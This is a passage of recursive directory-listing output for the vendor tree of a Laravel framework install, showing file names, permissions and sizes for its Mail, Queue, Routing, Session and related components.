-rw-r--r--  1 www-data www-data 3.4K Apr  3  2017 LogServiceProvider.php
-rwxr-xr-x  1 www-data www-data 9.4K Apr  3  2017 Writer.php
-rwxr-xr-x  1 www-data www-data  847 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Log/Events:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  682 Apr  3  2017 MessageLogged.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail:
total 88K
drwxr-xr-x  5 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
-rwxr-xr-x  1 www-data www-data 4.0K Apr  3  2017 MailServiceProvider.php
-rw-r--r--  1 www-data www-data  15K Apr  3  2017 Mailable.php
-rwxr-xr-x  1 www-data www-data  14K Apr  3  2017 Mailer.php
-rw-r--r--  1 www-data www-data 3.4K Apr  3  2017 Markdown.php
-rwxr-xr-x  1 www-data www-data 7.4K Apr  3  2017 Message.php
-rw-r--r--  1 www-data www-data 3.0K Apr  3  2017 PendingMail.php
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 SendQueuedMailable.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Transport
-rw-r--r--  1 www-data www-data 5.8K Apr  3  2017 TransportManager.php
-rwxr-xr-x  1 www-data www-data 1.2K Apr  3  2017 composer.json
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 resources

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/Events:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  382 Apr  3  2017 MessageSending.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/Transport:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 ArrayTransport.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 LogTransport.php
-rw-r--r-- 1 www-data www-data 3.6K Apr  3  2017 MailgunTransport.php
-rw-r--r-- 1 www-data www-data 2.3K Apr  3  2017 MandrillTransport.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 SesTransport.php
-rw-r--r-- 1 www-data www-data 3.7K Apr  3  2017 SparkPostTransport.php
-rw-r--r-- 1 www-data www-data 2.2K Apr  3  2017 Transport.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/resources:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 views

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/resources/views:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 html
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 markdown

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/resources/views/html:
total 52K
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  743 Apr  3  2017 button.blade.php
-rw-r--r-- 1 www-data www-data  316 Apr  3  2017 footer.blade.php
-rw-r--r-- 1 www-data www-data  112 Apr  3  2017 header.blade.php
-rw-r--r-- 1 www-data www-data 1.8K Apr  3  2017 layout.blade.php
-rw-r--r-- 1 www-data www-data  648 Apr  3  2017 message.blade.php
-rw-r--r-- 1 www-data www-data  412 Apr  3  2017 panel.blade.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 promotion
-rw-r--r-- 1 www-data www-data  213 Apr  3  2017 promotion.blade.php
-rw-r--r-- 1 www-data www-data  181 Apr  3  2017 subcopy.blade.php
-rw-r--r-- 1 www-data www-data   72 Apr  3  2017 table.blade.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 themes

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/resources/views/html/promotion:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  417 Apr  3  2017 button.blade.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/resources/views/html/themes:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 4.4K Apr  3  2017 default.css

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/resources/views/markdown:
total 48K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data   24 Apr  3  2017 button.blade.php
-rw-r--r-- 1 www-data www-data   12 Apr  3  2017 footer.blade.php
-rw-r--r-- 1 www-data www-data   26 Apr  3  2017 header.blade.php
-rw-r--r-- 1 www-data www-data  143 Apr  3  2017 layout.blade.php
-rw-r--r-- 1 www-data www-data  644 Apr  3  2017 message.blade.php
-rw-r--r-- 1 www-data www-data   12 Apr  3  2017 panel.blade.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 promotion
-rw-r--r-- 1 www-data www-data   12 Apr  3  2017 promotion.blade.php
-rw-r--r-- 1 www-data www-data   12 Apr  3  2017 subcopy.blade.php
-rw-r--r-- 1 www-data www-data   12 Apr  3  2017 table.blade.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Mail/resources/views/markdown/promotion:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data   26 Apr  3  2017 button.blade.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Notifications:
total 84K
drwxr-xr-x  7 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  479 Apr  3  2017 Action.php
-rw-r--r--  1 www-data www-data 4.5K Apr  3  2017 ChannelManager.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Channels
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Console
-rw-r--r--  1 www-data www-data 1.8K Apr  3  2017 DatabaseNotification.php
-rw-r--r--  1 www-data www-data  376 Apr  3  2017 DatabaseNotificationCollection.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
-rw-r--r--  1 www-data www-data  731 Apr  3  2017 HasDatabaseNotifications.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Messages
-rw-r--r--  1 www-data www-data  120 Apr  3  2017 Notifiable.php
-rw-r--r--  1 www-data www-data  408 Apr  3  2017 Notification.php
-rw-r--r--  1 www-data www-data 5.2K Apr  3  2017 NotificationSender.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 NotificationServiceProvider.php
-rw-r--r--  1 www-data www-data  965 Apr  3  2017 RoutesNotifications.php
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 SendQueuedNotifications.php
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 composer.json
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 resources

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Notifications/Channels:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Apr  3  2017 BroadcastChannel.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 DatabaseChannel.php
-rw-r--r-- 1 www-data www-data 5.2K Apr  3  2017 MailChannel.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 NexmoSmsChannel.php
-rw-r--r-- 1 www-data www-data 3.3K Apr  3  2017 SlackWebhookChannel.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Notifications/Console:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.8K Apr  3  2017 NotificationTableCommand.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Notifications/Console/stubs:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  781 Apr  3  2017 notifications.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Notifications/Events:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Apr  3  2017 BroadcastNotificationCreated.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 NotificationFailed.php
-rw-r--r-- 1 www-data www-data  848 Apr  3  2017 NotificationSending.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 NotificationSent.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Notifications/Messages:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  622 Apr  3  2017 BroadcastMessage.php
-rw-r--r-- 1 www-data www-data  405 Apr  3  2017 DatabaseMessage.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 MailMessage.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 NexmoMessage.php
-rw-r--r-- 1 www-data www-data 4.2K Apr  3  2017 SimpleMessage.php
-rw-r--r-- 1 www-data www-data 3.6K Apr  3  2017 SlackAttachment.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 SlackAttachmentField.php
-rw-r--r-- 1 www-data www-data 3.6K Apr  3  2017 SlackMessage.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Notifications/resources:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 views

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Notifications/resources/views:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 email.blade.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Pagination:
total 56K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  12K Apr  3  2017 AbstractPaginator.php
-rw-r--r--  1 www-data www-data 4.8K Apr  3  2017 LengthAwarePaginator.php
-rwxr-xr-x  1 www-data www-data 1.2K Apr  3  2017 PaginationServiceProvider.php
-rw-r--r--  1 www-data www-data 4.2K Apr  3  2017 Paginator.php
-rw-r--r--  1 www-data www-data 5.6K Apr  3  2017 UrlWindow.php
-rwxr-xr-x  1 www-data www-data  832 Apr  3  2017 composer.json
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 resources

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Pagination/resources:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 views

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Pagination/resources/views:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 bootstrap-4.blade.php
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 default.blade.php
-rw-r--r-- 1 www-data www-data  782 Apr  3  2017 simple-bootstrap-4.blade.php
-rw-r--r-- 1 www-data www-data  654 Apr  3  2017 simple-default.blade.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Pipeline:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 Hub.php
-rw-r--r--  1 www-data www-data 4.8K Apr  3  2017 Pipeline.php
-rw-r--r--  1 www-data www-data  750 Apr  3  2017 PipelineServiceProvider.php
-rw-r--r--  1 www-data www-data  826 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Queue:
total 176K
drwxr-xr-x  8 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 3.8K Apr  3  2017 BeanstalkdQueue.php
-rw-r--r--  1 www-data www-data 2.4K Apr  3  2017 CallQueuedHandler.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Capsule
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Connectors
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Console
-rw-r--r--  1 www-data www-data 8.3K Apr  3  2017 DatabaseQueue.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Failed
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 FailingJob.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 InteractsWithQueue.php
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 InteractsWithTime.php
-rw-r--r--  1 www-data www-data  375 Apr  3  2017 InvalidPayloadException.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Jobs
-rwxr-xr-x  1 www-data www-data 6.3K Apr  3  2017 Listener.php
-rw-r--r--  1 www-data www-data  753 Apr  3  2017 ListenerOptions.php
-rw-r--r--  1 www-data www-data 2.9K Apr  3  2017 LuaScripts.php
-rw-r--r--  1 www-data www-data  125 Apr  3  2017 ManuallyFailedException.php
-rw-r--r--  1 www-data www-data  130 Apr  3  2017 MaxAttemptsExceededException.php
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 NullQueue.php
-rwxr-xr-x  1 www-data www-data 4.4K Apr  3  2017 Queue.php
-rwxr-xr-x  1 www-data www-data 6.3K Apr  3  2017 QueueManager.php
-rwxr-xr-x  1 www-data www-data 5.8K Apr  3  2017 QueueServiceProvider.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 README.md
-rw-r--r--  1 www-data www-data 6.8K Apr  3  2017 RedisQueue.php
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 SerializesAndRestoresModelIdentifiers.php
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 SerializesModels.php
-rwxr-xr-x  1 www-data www-data 3.7K Apr  3  2017 SqsQueue.php
-rwxr-xr-x  1 www-data www-data 3.9K Apr  3  2017 SyncQueue.php
-rw-r--r--  1 www-data www-data  18K Apr  3  2017 Worker.php
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 WorkerOptions.php
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Queue/Capsule:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 4.6K Apr  3  2017 Manager.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Queue/Connectors:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 BeanstalkdConnector.php
-rwxr-xr-x 1 www-data www-data  263 Apr  3  2017 ConnectorInterface.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 DatabaseConnector.php
-rw-r--r-- 1 www-data www-data  358 Apr  3  2017 NullConnector.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 RedisConnector.php
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 SqsConnector.php
-rwxr-xr-x 1 www-data www-data  358 Apr  3  2017 SyncConnector.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Queue/Console:
total 52K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 FailedTableCommand.php
-rw-r--r-- 1 www-data www-data  615 Apr  3  2017 FlushFailedCommand.php
-rw-r--r-- 1 www-data www-data 1015 Apr  3  2017 ForgetFailedCommand.php
-rw-r--r-- 1 www-data www-data 2.7K Apr  3  2017 ListFailedCommand.php
-rwxr-xr-x 1 www-data www-data 3.3K Apr  3  2017 ListenCommand.php
-rw-r--r-- 1 www-data www-data  699 Apr  3  2017 RestartCommand.php
-rw-r--r-- 1 www-data www-data 2.3K Apr  3  2017 RetryCommand.php
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 TableCommand.php
-rw-r--r-- 1 www-data www-data 5.6K Apr  3  2017 WorkCommand.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Queue/Console/stubs:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  793 Apr  3  2017 failed_jobs.stub
-rw-r--r-- 1 www-data www-data  933 Apr  3  2017 jobs.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Queue/Events:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  787 Apr  3  2017 JobExceptionOccurred.php
-rw-r--r-- 1 www-data www-data  795 Apr  3  2017 JobFailed.php
-rw-r--r-- 1 www-data www-data  589 Apr  3  2017 JobProcessed.php
-rw-r--r-- 1 www-data www-data  590 Apr  3  2017 JobProcessing.php
-rw-r--r-- 1 www-data www-data   68 Apr  3  2017 Looping.php
-rw-r--r-- 1 www-data www-data   75 Apr  3  2017 WorkerStopping.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Queue/Failed:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.5K Apr  3  2017 DatabaseFailedJobProvider.php
-rw-r--r-- 1 www-data www-data  897 Apr  3  2017 FailedJobProviderInterface.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 NullFailedJobProvider.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Queue/Jobs:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data 2.7K Apr  3  2017 BeanstalkdJob.php
-rw-r--r-- 1 www-data www-data 2.1K Apr  3  2017 DatabaseJob.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 DatabaseJobRecord.php
-rwxr-xr-x 1 www-data www-data 4.7K Apr  3  2017 Job.php
-rw-r--r-- 1 www-data www-data  998 Apr  3  2017 JobName.php
-rw-r--r-- 1 www-data www-data 3.0K Apr  3  2017 RedisJob.php
-rwxr-xr-x 1 www-data www-data 2.5K Apr  3  2017 SqsJob.php
-rwxr-xr-x 1 www-data www-data 1.7K Apr  3  2017 SyncJob.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Redis:
total 28K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Connections
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Connectors
-rw-r--r--  1 www-data www-data 3.0K Apr  3  2017 RedisManager.php
-rwxr-xr-x  1 www-data www-data  942 Apr  3  2017 RedisServiceProvider.php
-rwxr-xr-x  1 www-data www-data  850 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Redis/Connections:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 Connection.php
-rw-r--r-- 1 www-data www-data  118 Apr  3  2017 PhpRedisClusterConnection.php
-rw-r--r-- 1 www-data www-data 6.3K Apr  3  2017 PhpRedisConnection.php
-rw-r--r-- 1 www-data www-data  114 Apr  3  2017 PredisClusterConnection.php
-rw-r--r-- 1 www-data www-data  979 Apr  3  2017 PredisConnection.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Redis/Connectors:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 PhpRedisConnector.php
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 PredisConnector.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Routing:
total 224K
drwxr-xr-x  7 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Console
-rw-r--r--  1 www-data www-data 2.0K Apr  3  2017 Controller.php
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 ControllerDispatcher.php
-rw-r--r--  1 www-data www-data 1013 Apr  3  2017 ControllerMiddlewareOptions.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Exceptions
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 ImplicitRouteBinding.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Matching
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Middleware
-rw-r--r--  1 www-data www-data 3.2K Apr  3  2017 MiddlewareNameResolver.php
-rw-r--r--  1 www-data www-data 2.5K Apr  3  2017 Pipeline.php
-rwxr-xr-x  1 www-data www-data 5.7K Apr  3  2017 Redirector.php
-rw-r--r--  1 www-data www-data  13K Apr  3  2017 ResourceRegistrar.php
-rw-r--r--  1 www-data www-data 6.3K Apr  3  2017 ResponseFactory.php
-rwxr-xr-x  1 www-data www-data  18K Apr  3  2017 Route.php
-rw-r--r--  1 www-data www-data 2.6K Apr  3  2017 RouteAction.php
-rw-r--r--  1 www-data www-data 2.7K Apr  3  2017 RouteBinding.php
-rw-r--r--  1 www-data www-data 9.1K Apr  3  2017 RouteCollection.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 RouteCompiler.php
-rw-r--r--  1 www-data www-data 2.8K Apr  3  2017 RouteDependencyResolverTrait.php
-rw-r--r--  1 www-data www-data 2.4K Apr  3  2017 RouteGroup.php
-rw-r--r--  1 www-data www-data 3.3K Apr  3  2017 RouteParameterBinder.php
-rw-r--r--  1 www-data www-data 4.2K Apr  3  2017 RouteRegistrar.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 RouteSignatureParameters.php
-rw-r--r--  1 www-data www-data 8.7K Apr  3  2017 RouteUrlGenerator.php
-rw-r--r--  1 www-data www-data  28K Apr  3  2017 Router.php
-rwxr-xr-x  1 www-data www-data 4.2K Apr  3  2017 RoutingServiceProvider.php
-rw-r--r--  1 www-data www-data 2.8K Apr  3  2017 SortedMiddleware.php
-rwxr-xr-x  1 www-data www-data  15K Apr  3  2017 UrlGenerator.php
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/Console:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data 3.4K Apr  3  2017 ControllerMakeCommand.php
-rw-r--r-- 1 www-data www-data  964 Apr  3  2017 MiddlewareMakeCommand.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/Console/stubs:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.8K Apr  3  2017 controller.model.stub
-rw-r--r-- 1 www-data www-data  162 Apr  3  2017 controller.plain.stub
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 controller.stub
-rw-r--r-- 1 www-data www-data  325 Apr  3  2017 middleware.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/Events:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  593 Apr  3  2017 RouteMatched.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/Exceptions:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  453 Apr  3  2017 UrlGenerationException.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/Matching:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  618 Apr  3  2017 HostValidator.php
-rw-r--r-- 1 www-data www-data  502 Apr  3  2017 MethodValidator.php
-rw-r--r-- 1 www-data www-data  619 Apr  3  2017 SchemeValidator.php
-rw-r--r-- 1 www-data www-data  586 Apr  3  2017 UriValidator.php
-rw-r--r-- 1 www-data www-data  401 Apr  3  2017 ValidatorInterface.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/Middleware:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  897 Apr  3  2017 SubstituteBindings.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 ThrottleRequests.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Session:
total 80K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 1.8K Apr  3  2017 CacheBasedSessionHandler.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Console
-rwxr-xr-x  1 www-data www-data 2.4K Apr  3  2017 CookieSessionHandler.php
-rw-r--r--  1 www-data www-data 6.4K Apr  3  2017 DatabaseSessionHandler.php
-rw-r--r--  1 www-data www-data 1.7K Apr  3  2017 EncryptedStore.php
-rw-r--r--  1 www-data www-data  254 Apr  3  2017 ExistenceAwareInterface.php
-rw-r--r--  1 www-data www-data 2.3K Apr  3  2017 FileSessionHandler.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Middleware
-rwxr-xr-x  1 www-data www-data 5.3K Apr  3  2017 SessionManager.php
-rwxr-xr-x  1 www-data www-data 1.3K Apr  3  2017 SessionServiceProvider.php
-rwxr-xr-x  1 www-data www-data  14K Apr  3  2017 Store.php
-rwxr-xr-x  1 www-data www-data  112 Apr  3  2017 TokenMismatchException.php
-rwxr-xr-x  1 www-data www-data 1.1K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Session/Console:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.8K Apr  3  2017 SessionTableCommand.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Session/Console/stubs:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data  820 Apr  3  2017 database.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Session/Middleware:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Apr  3  2017 AuthenticateSession.php
-rw-r--r-- 1 www-data www-data 7.0K Apr  3  2017 StartSession.php

